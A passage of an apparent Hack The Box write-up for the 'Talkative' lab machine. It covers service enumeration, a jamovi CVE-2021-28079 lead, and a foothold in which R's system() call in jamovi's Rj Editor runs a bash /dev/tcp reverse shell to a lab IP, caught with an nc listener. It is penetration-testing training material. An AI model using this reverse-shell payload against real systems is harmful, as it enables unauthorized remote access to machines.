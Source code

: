 | Name  |  Email |  Job Level |
|---|---|---|
| Janit Smith  | janit@talkative.htb  |  Chief Financial Officer |
| Saul Goodman  | saul@talkative.htb  | Chief Executing Officer  |
| Matt Williams   |  matt@talkative.htb |  Chief Marketing Officer & Head of Design |
|   |  support@talkative.htb |  |


#### HTTP Service Port 8080
```
┌──(kali㉿kali)-[~/htb/talkative]
└─$ wappy -u http://talkative.htb:8080

[+] TECHNOLOGIES [TALKATIVE.HTB:8080] :

Web servers : TornadoServer [version: 5.0]
```
The titlebar indicates that the service running is ```jamovi```. By clicking on the three dots in the upper right corner we can confirm the version is: ```Version 0.9.5.5```
I've found a exploit to try later:
```Exploit for Cross-site Scripting in Jamovi CVE-2021-28079``` https://sploitus.com/exploit?id=F45F77BE-1B49-5574-A908-64EF4C774BD7

#### HTTP Service Port 3000
```
┌──(kali㉿kali)-[~/htb/talkative]
└─$ wappy -u http://talkative.htb:3000

[+] TECHNOLOGIES [TALKATIVE.HTB:3000] :

Databases : MongoDB [version: nil]
JavaScript frameworks : Meteor [version: nil]
Programming languages : Node.js [version: nil]
```
This service seems to be running rocket.chat


## Foothold

The exploit for ```Jamovi CVE-2021-28079``` did not work for me because i was not able to download a ```.omv ```file to manipulate, the software seemed to only save them ```locally```. 

However after some googleing i've found a way to ```execute system commands``` with the ```R```language within the ```Rj Editor```, I've used this documentation:
https://astrostatistics.psu.edu/su07/R/html/base/html/system.html

And this blog post:
https://www.r-bloggers.com/2021/09/how-to-use-system-commands-in-your-r-script-or-package/

The skeletion payload looked like this:
```system2("<COMMAND>", stdout = TRUE, stderr = TRUE)```

Confirmed RCE with 
```system2("id", stdout = TRUE, stderr = TRUE)```

Created a revershell payload at https://www.revshells.com/ but it did not immeditaly work.
The final payload for the reverse shell looked like this, i had to switch to a different function:
```system("bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'",intern=TRUE)```

We are greeted with a docker container running as root:
```
┌──(kali㉿kali)-[~/htb/talkative]
└─$ rlwrap nc -lvnp 4444                                                                                                                              130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )